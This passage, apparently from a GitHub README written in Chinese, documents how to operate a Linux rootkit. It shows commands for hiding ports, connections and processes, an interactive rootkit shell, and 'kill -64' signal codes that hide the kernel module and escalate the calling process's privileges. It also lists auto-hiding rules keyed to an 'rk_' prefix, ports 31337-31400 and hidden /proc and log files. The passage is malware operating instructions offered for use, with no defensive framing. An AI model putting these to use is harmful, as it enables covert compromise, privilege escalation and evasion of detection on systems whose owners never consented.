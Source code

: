 ```bash
# 端口隐藏
sudo ./control hide_port <port>            # 隐藏端口
sudo ./control hide_connection <local_ip:port> <remote_ip:port>  # 隐藏连接
sudo ./control unhide_port <port>          # 取消隐藏端口
sudo ./control list_hidden_ports           # 列出隐藏端口

# 系统信息
sudo ./control status                      # 查看整体状态
sudo ./control help                        # 显示帮助信息
```

### 交互模式

```bash
# 启动交互模式
sudo ./control -i

# 在交互模式中使用命令
rootkit> help
rootkit> hide_module
rootkit> status
rootkit> exit
```

### 信号控制

```bash
# 使用kill命令发送控制信号
kill -64 1    # 隐藏模块
kill -64 2    # 显示模块
kill -64 3    # 提权当前进程
kill -64 10   # 隐藏当前进程
kill -64 11   # 显示当前进程
```

## 魔术功能

### 自动隐藏规则

1. **文件名前缀**: 以 `rk_` 开头的文件自动隐藏
2. **进程名前缀**: 以 `rk_` 开头的进程自动隐藏
3. **魔术进程名**: 名为 `rootkit_proc` 的进程自动隐藏
4. **魔术端口**: 31337-31400 范围内的端口自动隐藏
5. **控制端口**: 31337端口自动隐藏

### 特殊文件

- `/proc/rootkit_control`: rootkit控制接口
- `/tmp/.rootkit_*`: 临时文件自动隐藏
- `/var/log/rootkit.log`: 日志文件自动隐藏

## 配置选项
